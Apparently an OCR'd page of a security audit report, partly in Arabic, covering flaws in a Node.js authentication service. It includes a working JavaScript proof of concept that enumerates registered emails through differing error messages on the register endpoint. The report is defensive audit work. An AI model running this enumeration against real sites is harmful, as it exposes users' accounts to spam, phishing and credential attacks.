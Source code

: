 **Impact:**
- ✅ Email enumeration
- ✅ Spam users with reset emails
- ✅ DoS attack
- ✅ User annoyance

**CVSS Score:** 7.0 (High)

---

## 🟡 MEDIUM SEVERITY VULNERABILITIES

### 7. **User Enumeration via Different Error Messages** 🟡
**File:** `src/modules/auth/auth.service.js`  
**Multiple locations**  
**Severity:** MEDIUM

**الثغرة:**
```javascript
// register function
if (exists) return res.status(400).json({ message: "Email already registered" });

// Different error for existing vs non-existing users
```

**كيف يستغلها الهاكر:**
```javascript
// Check if email exists
const checkEmail = async (email) => {
  const res = await fetch('/api/v1/auth/register', {
    method: 'POST',
    body: JSON.stringify({
      email,
      username: 'test',
      password: 'Test123!@#'
    })
  });
  
  const data = await res.json();
  
  if (data.message === 'Email already registered') {
    console.log('✅ Email exists:', email);
    return true;
  }
  
  return false;
};

// Build database of valid emails
const validEmails = [];
for (const email of emailList) {
  if (await checkEmail(email)) {
    validEmails.push(email);
  }
}

console.log('Found', validEmails.length, 'valid emails');
```
